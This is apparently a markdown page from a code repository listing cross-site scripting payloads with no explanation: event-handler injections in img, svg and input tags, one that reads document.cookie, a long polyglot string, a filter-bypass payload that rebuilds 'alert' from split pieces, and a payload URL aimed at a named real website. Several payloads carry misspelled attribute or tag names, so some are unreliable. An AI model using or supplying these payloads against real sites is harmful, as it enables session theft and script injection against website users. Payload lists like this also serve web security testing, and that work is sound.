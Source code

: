 # Payloads

Some nice payloads:

```html
<img/src/onerror=alert(origin)>
<img/src/onerror=\u0061lert?.(origin)>
<details/open/ontoogle=JS>
<script src=data:,alert(origin)></script>
https://www.akamai.com/?xss=%3cinput/onbeforinput=%27a=alert,a(1)%27%3E
"><ifame srcdoc="">
">%26%2300%3B</form><input+type="s"/onfocus="alert(document.cookie)"/autofocus>
">&#00;</form><input type&#61;"s" onfocus="alert(1)" autofocus>
<img/serset":"/onloaded=alert(1)>
<svg onload=location=name>
<a/href=javascript&colon;alert()>click

```

All in one but noisy

```
JavaScirpt://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\/*%26apos;)*<!--></Title></textArea></iFrame></noScript></style>/autoFocus/Onfocus=/*{/*/;{/**/a=(alert(1)}//<Base/Href=//X55.is\76-->
```

All payloads that bypass WAFs

```bash
 onload=top[/al/.source+/ert/.source]`origin`>hi</a> => alert is filtered!!
```

XSS Without `()`

[XSS-Payloads/Without-Parentheses.md at master · RenwaX23/XSS-Payloads](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)